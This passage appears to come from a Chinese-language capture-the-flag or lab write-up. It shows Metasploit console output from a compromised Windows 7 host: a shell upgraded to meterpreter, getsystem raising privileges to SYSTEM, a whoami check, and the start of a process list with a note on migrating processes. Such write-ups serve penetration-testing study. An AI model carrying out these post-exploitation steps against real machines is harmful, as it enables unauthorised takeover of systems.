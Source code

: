 ```
    Active sessions
    ===============

    Id  Name  Type                     Information                                               Connection
    --  ----  ----                     -----------                                               ----------
    1         shell x64/windows        Shell Banner: Microsoft Windows [Version 6.1.7601] -----  10.10.223.84:4444 -> 10.10.46.13:49236 (10.10.46.13)
    2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                              10.10.223.84:4433 -> 10.10.46.13:49245 (10.10.46.13)

    msf6 post(multi/manage/shell_to_meterpreter) > sessions 2
    [*] Starting interaction with 2...
    ```

    得到meterpreter shell之后，迁移当前进程到高权限用户下，以此提升meterpreter权限

    ```
    meterpreter > getuid 
    Server username: NT AUTHORITY\SYSTEM
    meterpreter > 
    meterpreter > getsystem 
    ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
    meterpreter > shell
    Process 2160 created.
    Channel 1 created.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>whoami
    whoami
    nt authority\system
    ```

    + 是系统并不意味着过程也是系统,因此需要迁移进程```migrate PROCESS_ID```

        + 查询进程ps:

        ```
        meterpreter > ps

        Process List
        ============

        PID   PPID  Name                  Arch  Session  User                          Path
        ---   ----  ----                  ----  -------  ----                          ----
        0     0     [System Process]
        4     0     System                x64   0
        416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
        468   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
        544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
        556   692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
        584   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
        596   584   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
        604   536   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
        644   584   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
```